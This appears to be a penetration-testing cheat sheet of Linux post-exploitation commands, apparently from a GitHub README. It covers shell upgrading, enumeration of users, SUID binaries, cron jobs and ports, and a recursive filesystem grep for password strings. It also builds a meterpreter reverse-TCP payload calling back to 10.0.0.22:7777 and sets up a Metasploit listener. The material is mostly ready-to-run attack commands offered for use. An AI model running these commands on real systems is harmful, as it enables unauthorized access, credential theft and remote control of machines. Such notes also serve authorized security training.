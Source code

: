 Upgrade shell:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Show Linux version:
```bash
uname -a
```

List sudo privileges of current user:
```bash
sudo -l
```

Print groups of current user:
```bash
groups
```

Print history:
```bash
history
```

Search hidden files in home directory:
```bash
ls -la ~
```

List users:
```bash
cat /etc/passwd
```

Search for SUID executables:
```bash
find / -perm -u=s -type f 2>/dev/null
```

List running processes:
```bash
ps -aux
```

List cron jobs:
```bash
cat /etc/crontab
ls -l /etc/cron*
ls -l /var/spool/cron/crontabs
```

List open ports:
```bash
netstat -tulpn
```

Print environment variables:
```bash
printenv
```

Search for strings in files:
```bash
grep --color=auto -rnw '/' -iIe "PASSW\|PASSWD\|PASSWORD\|PWD\|PASS\|PW" --color=always --exclude-dir={usr,lib,boot,bin,cache} 2>/dev/null
```

(NOT-OSCP!) Upgrade a system shell to meterpreter:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.0.0.22 LPORT=7777 -f elf > revshell.bin
```
(NOT-OSCP!) Setup listener: 
```msfconsole
use exploit/multi/handler
```

If you want to switch user and encounter this error:
```bash
su oracle
su: must be run from a terminal
```
Run this command and try again:
```bash
/usr/bin/script -qc /bin/bash /dev/null
su oracle
```
